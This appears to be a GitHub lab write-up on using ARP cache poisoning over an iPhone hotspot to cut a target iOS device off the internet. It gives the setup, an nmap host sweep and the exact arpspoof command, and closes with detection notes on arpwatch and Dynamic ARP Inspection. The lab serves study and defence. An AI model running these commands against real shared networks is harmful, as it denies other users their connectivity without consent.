





# Blocking a Device's Internet Access via ARP Spoofing on a WiFi Hotspot

## Overview
A local network attack demonstrating how a device on a shared WiFi network can be completely cut off from the internet using ARP cache poisoning — no malware, no access to the router, just Layer 2 trust abuse. Built as a hands-on lab to understand how ARP spoofing works and why it's still a relevant local-network threat today.

**Topology:**

```
        iPhone (Hotspot / Gateway)
              172.20.10.1
             /            \
   Windows Laptop        iOS Target Device
   + Kali VM (bridged)      172.20.10.11
   172.20.10.8 (host)
   172.20.10.9 (Kali VM, attacker)
```

| Role | Device | IP |
|---|---|---|
| Gateway / Hotspot | iPhone (Personal Hotspot) | 172.20.10.1 |
| Attacker host | Windows laptop (physical WiFi) | 172.20.10.8 |
| Attacker | Kali Linux VM, bridged | 172.20.10.9 |
| Target | iOS device | 172.20.10.11 |

## Tools Used
- Kali Linux (VM)
- `arpspoof` (dsniff suite)
- `nmap`
- VMware Workstation (bridged networking)
- iPhone Personal Hotspot as the test network

## Setup

VM networking has to be in **Bridged mode** rather than NAT, so the Kali VM shares the same subnet as the other hotspot clients instead of hiding behind the host's IP.



The default bridged network (VMnet0) wasn't configured out of the box — the Virtual Network Editor only had Host-only and NAT networks present:



Added a new VMnet, set it to Bridged, and had to explicitly select the physical WiFi adapter instead of leaving it on "Automatic" (which was silently binding to the wrong interface and causing DHCP to fail):



Confirmed VMnet0 picked up the correct bridged config afterward:



After fixing the adapter binding, the Kali VM successfully pulled a real DHCP lease from the iPhone hotspot instead of a `169.254.x.x` self-assigned fallback address:



## Steps

**1. Confirm IP forwarding is disabled** (required for a pure block rather than a MITM — this way the target's traffic gets dropped instead of relayed):
```
cat /proc/sys/net/ipv4/ip_forward
# Output: 0
```

**2. Enumerate hosts on the hotspot subnet:**
```
sudo nmap -sn 172.20.10.0/28
```
```
Nmap scan report for 172.20.10.1    (gateway / iPhone)
Nmap scan report for 172.20.10.8    (attacker host / laptop)
Nmap scan report for 172.20.10.9    (attacker / Kali VM)
Nmap scan report for 172.20.10.11   (target / iOS device)
Nmap done: 16 IP addresses (4 hosts up) scanned
```

**3. Run the ARP spoof**, impersonating the gateway to the target:
```
sudo arpspoof -i eth0 -t 172.20.10.11 172.20.10.1
```

## How It Works
`arpspoof` sends forged ARP replies to the target claiming the attacker's MAC address belongs to the gateway's IP (172.20.10.1). The target updates its ARP cache and starts routing all outbound traffic through the Kali VM instead of the real gateway. Since `ip_forward` is left at `0`, that traffic is never relayed onward — it's simply dropped. The target stays associated with the WiFi network the whole time, but has no working internet.

## Result
Confirmed working — the target device lost all internet connectivity while the spoof was active (verified by attempting to load fresh, uncached pages on the target). Stopping the spoof (`Ctrl+C`) let the ARP tables heal and connectivity returned to normal shortly after.

## Key Takeaways
- This is a **Layer 2 attack** — attacker and target must share the same broadcast domain (same WiFi/LAN). It doesn't work across separate networks.
- No packet forwarding is required to deny service — poisoning the ARP cache alone is enough, making this a lightweight local DoS technique.
- **Detection:** tools like `arpwatch`, or a switch/AP with Dynamic ARP Inspection, would flag the repeated, conflicting ARP replies this attack generates.
- **Scope:** requires existing network access (WiFi password or physical LAN access) — not remotely exploitable from outside the network.
